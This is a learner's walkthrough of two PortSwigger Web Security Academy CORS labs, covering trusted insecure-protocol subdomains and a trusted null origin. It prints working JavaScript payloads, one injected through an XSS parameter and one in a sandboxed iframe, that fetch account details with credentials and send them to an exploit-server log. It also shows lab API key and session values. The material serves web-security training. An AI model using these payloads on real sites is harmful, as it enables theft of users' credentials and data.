### CORS vulnerability with trusted insecure protocols
This is a challenging LAB, at least for me, since I had problem to understand how CORS related concepts work clearly.<br>
We have the following information:
1. This website has an insecure CORS configuration that trusts all subdomains 
1. The trust relation is not protocol aware

To solve the lab we have to get the administrator's API key, expoliting CORS vulnerability using Javascript, so we can infer that we need to implement some asynchronous mechanism.<br>
First of we have to find the insecure CORS configuration, inspecting the history in Burp proxy we can see that a response to the <b>accountDetails request</b> is in a JSON format, moreover we can notice that in the response the <b>Access-Control-Allow-Credentials</b> is set, that suggests that an asynchronous request could be in place.
<br><br>
Lets try to test the CORS security context adding the <b>origin</b> header to the request, if we get back the origin value in the <b>Access-Control-Allow-Origin</b> it means that the response can be shared with requesting code from the given origin. The use cases tested are the following:
+ Origin: null -> fails: Access-Control-Allow-Origin is not returned
+ Origin: https://www.google.it -> fails as above
+ Origin: https://test.LAB-ID..web-security-academy.net -> <b>OK</b>: the value is reflected into Access-Control-Allow-Origin response header
<br><br>
So we know that we can issue cross-site request from a subdomain. Now we have to find a vulnerability to be exploited through a web page hosted in a lab sunbdomains, again lets inspect the Burp history while we navigate the lab. 
<br><br>
From the above image we can see that a call to the <b>stock subdomain</b> is performed to check the stock amount, then sending the request to the Repeater we can try to verify if the query string parameters are injectable:
<br><br>
The <b>productId</b> parameter is right to us, since  is prone to XSS attacks, we can take advantages of this vulnerability to exploit the CORS security lack. First of all, we will test if we are able to get the account details information for the current user, from the vulnerable stock web page hosted in the lab subdomain. We will delivery the following payload to try to get the account details for the current logged user (we must use credentials: 'include' in the fetch request to pass the credentials).
<br><br>
Further we can see the response in the browser (right click in request section in the Repeater to get the URL)
<br><br>
Finally we craft the payload to be set in the exploit server, we have to direct the flow to the vulnerable stock page first, then we redirect the response containing the account details to the exploit server log page as the query string parameter:
<br><br>
As shown in the image above, I encoded (URL format) the actual payload passed as <b>productID parameter</b> (highlighted), for your convenience this is the plain version:
```
<script>
fetch('https://0a6e004204f74b30c142e98100f9006b.web-security-academy.net/accountDetails', {credentials: 'include'})
.then(response => response.text())
.then((response) => document.location='https://exploit-0aa600e7048e4bcac12de85a010500dd.exploit-server.net/log?x='+response);</script>

```
Once the explit is stored (1) we can verify if it works (2). As shown below, we can see that the redirection to exploit server access log works and that the account details are trasmitted into the query string
<br><br>
Then we can delivery our payload to the victim and inspecting the access log: we can see the account details (URL encoded) for the administrator user
<br><br>
Decode the query string <b>x parameter</b> value to get the API key

References:
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Sec-Fetch-Mode
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Sec-Fetch-Site
+ https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Origin
+ https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch

### CORS vulnerability with trusted null origin
<b>Null origin</b> is similar to wildcard origin, a null origin is another way to allow any request to access the resources on websites, <b>but unlike wildcard origin, null origin allows access to the response if the Access-Control-Allow-Credentials header is set to true.</b>

#### Lab
The lab has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Let's login to see what requests are sent to the server. We can see that the details of the account is returned through a JSON response
<br><br>
Since the <b>Access-Control-Allow-Credentials</b> header is returned we can infer that a CORS policy is in place. Let's try to see if setting a Origin to null in the request we can access the response (in this case we will see the Access-Control-Allow-Credential set to true again).
<br><br>
<i>Please note that from now on my lab id changed.</i>
This is the case, so we know that the application implements insecure CORS configuration, now we could craft a CSRF payload to stole the victim API key, the proble here is how to force the victim's browser to send a null Origin value. <i>Googling</i> a bit it comes out that we can use an iframe with the <b>sandobox attribute</b>, but we have to set the value to allow scripts of course. We will use the <b>scrdoc</b> attribute to provide inline Javascript code to embed, overriding the src attribute.
Then we can try to use the following payload in the body of the exploit server:

    <iframe style="visibility:hidden" sandbox="allow-scripts" srcdoc="<script> fetch('https://0ad2004604eea142c0fe36cb00830033.web-security-academy.net/accountDetails', {credentials: 'include'}).then(response => response.text()).then((response) => document.location='/log?k='+encodeURIComponent(response));</script>"></iframe>

Save it into the body of the exploit server (1), then save it (2) and deliver it to the victim (3). After a minute visit the log (4) and you should see an entry related to the administrator data (5).
<br><br>
<i>Please note that tryng to view the xploit will result in the request block due to CORS missing allow origin. Following there is a communication's extract in the HAR format </i>  

    "request": {

          "bodySize": 0,

          "method": "GET",

          "url": "https://0a9400f0049d2321c133bcfa000500a3.web-security-academy.net/accountDetails",

          "httpVersion": "HTTP/2",
          ...
           {

              "name": "Origin",

              "value": "null"

            },

    ---------------------------------------------------------------------------------------------------
    "response": {

          "status": 401,

          "statusText": "Unauthorized",

          "httpVersion": "HTTP/2",
          ...

Actually in the response the Access-Control-Allow-Credentials header is missing, that's not clear to me. I opened a post on the forum, if you are interested you can follow [here](https://forum.portswigger.net/thread/lab-cors-vulnerability-with-trusted-null-origin-cors-missing-allow-origin-4e02491c?CategoryId=how-do-i).

Coming back to the retrived data we can proceed to decode the query string and we get

    k={
        "username": "administrator",
        "email": "",
        "apikey": "zt2GNo4oPlKuJGF9nAm290g2vk1lUxrW",
        "sessions": [
            "LllLyyMkEjhiNx95JDsMmX5fhZOGfxSZ"
        ]
    }

Then we can submit the apikey to solve the lab


#### References
- https://portswigger.net/web-security/cors/access-control-allow-origin
- https://portswigger.net/web-security/cors
- https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox